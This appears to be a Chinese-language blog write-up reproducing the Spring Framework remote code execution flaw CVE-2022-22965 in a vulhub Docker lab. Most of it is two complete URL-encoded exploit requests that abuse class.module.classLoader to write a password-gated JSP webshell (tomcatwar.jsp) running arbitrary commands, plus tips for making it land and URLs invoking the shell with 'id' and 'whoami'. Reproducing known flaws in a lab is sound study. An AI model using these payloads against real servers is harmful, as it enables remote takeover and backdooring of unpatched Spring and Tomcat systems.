



Spring Framework RCE简单复现(CVE-2022-22965)
环境搭建
下载地址：https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22965
拉取镜像：docker pull vulhub/spring-webmvc:5.3.17
启动：docker run -p 18080:8080 -d vulhub/spring-webmvc:5.3.17
访问页面

在bp访问的效果

payload1攻击
1 | GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1 |
踩坑1：每次写完shell会有缓存，如果发现没重复打payload没写成，就重启一下tomcat服务就好了。
踩坑2：下面的请求头，一定要夹在里面，不然不会请求到里面，写的马就会不对
payload2攻击
1 | /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= |
最后访问执行webshell
http://192.168.88.104:18080//tomcatwar.jsp?pwd=j&cmd=id

http://192.168.88.104:18080//tomcatwar.jsp?pwd=j&cmd=whoami
